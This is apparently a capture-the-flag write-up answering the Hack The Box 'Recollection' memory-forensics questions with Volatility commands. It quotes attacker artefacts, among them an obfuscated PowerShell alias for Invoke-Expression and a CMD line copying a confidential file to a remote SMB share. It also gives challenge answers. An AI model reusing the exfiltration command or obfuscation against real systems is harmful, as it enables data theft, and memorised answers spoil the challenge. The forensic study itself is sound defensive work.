 # Recollection

[Recollection](https://app.hackthebox.com/sherlocks/Recollection)

## Description

A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below.

## Question

1. What is the Operating System of the machine?

```bash
volatility3 -f recollection.bin windows.info
```

> `Windows 7`

2. When was the memory dump created?

> `2022-12-19 16:07:30`

3. After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

```bash
volatility 2 -f recollection.bin --profile=Win7SP1x64 clipboard
```

> `(gv '*MDR*').naMe[3,11,2]-joIN''`

4. The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name ?

```powershell
> (gv '*MDR*').naMe[3,11,2]-joIN''
```

> `Invoke-Expression`

5. A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

> `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`

6. Following the above command, now tell us if the file was exfiltrated successfully?

```bash
volatility 2 -f recollection.bin --profile=Win7SP1x64 consoles
```

> `No`

7. The attacker tried to create a readme file. What was the full path of the file?

```powershell
> echo "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi" | base64 -D
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"%
```

> `C:\Users\Public\Office\readme.txt`

8. What was the Host Name of the machine?

> `USER-PC`

9. How many user accounts were in the machine?

> `3`

10. In the"\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?

> `\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt`

11. A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?

```powershell
volatility -f /dumps/recollection.bin --profile=Win7SP1x64 cmdscan
```

> `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1`

12. Following the previous question, what is the Imphash of the malicous file you found above?

https://www.virustotal.com/gui/file/b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1/details

> `d3b592cd9481e4f053b5362e22d61595`

13. Following the previous question, tell us the date in UTC format when the malicious file was created?

> `2022-06-22 11:49:04`

14. What was the local IP address of the machine?

> `192.168.0.104`

15. There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?

```powershell
volatility -f /dumps/recollection.bin --profile=Win7SP1x64 pstree
```

> `cmd.exe`

16. Attacker might have used an email address to login a social media. Can you tell us the email address?

```powershell
strings recollection.bin | grep mafia
```

> [`mafia_code1337@gmail.com`](mailto:mafia_code1337@gmail.com)

17. Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

```powershell
mkdir Edge
volatility -f /dumps/recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011e0d16f0 --dump-dir /dumps/Edge
ls Edge
file.None.0xfffffa80056d1440.dat  file.None.0xfffffa80058825f0.vacb
sqlite3 Edge/file.None.0xfffffa80056d1440.dat
> .tables;
cluster_keywords          downloads                 segment_usage
cluster_visit_duplicates  downloads_reroute_info    segments
clusters                  downloads_slices          typed_url_sync_metadata
clusters_and_visits       downloads_url_chains      urls
content_annotations       keyword_search_terms      visit_source
context_annotations       meta                      visits
> select * from keyword_search_terms;
2|5|install wazuh agent windows|install wazuh agent windows
2|12|malwarebazaar|malwarebazaar
2|21|malwarebazaar|malwarebazaar
2|23|7 zip windows 10|7 zip windows 10
2|24|7 zip windows 7|7 zip windows 7
2|27|base64 encode|base64 encode
```

> `Wazuh`

18. The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

> `csrsss.exe`

